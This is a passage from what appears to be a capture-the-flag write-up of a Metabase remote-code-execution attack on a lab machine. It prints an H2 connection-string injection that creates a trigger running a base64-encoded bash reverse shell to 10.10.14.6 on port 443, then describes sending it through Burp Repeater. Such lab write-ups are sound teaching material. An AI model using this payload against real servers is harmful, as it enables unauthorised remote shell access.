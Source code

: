 
So my `db` string will be:

    
    
    zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK}|{base64,-d}|{bash,-i}')\n$$--=x
    

#### Send

With `nc` listening on 443, I’ll find a request to `data.analytics.htb` in
Burp, and send it to Repeater. It doesn’t matter what it is, as I’m going to
completely change it (I just want the target to be set correctly). In the
Request pane, I’ll update the `Host` header from `localhost` to
`data.analytical.htb`, the `token`, and the `db` string:

![image-20240313195636750](../img/image-20240313195636750.png)
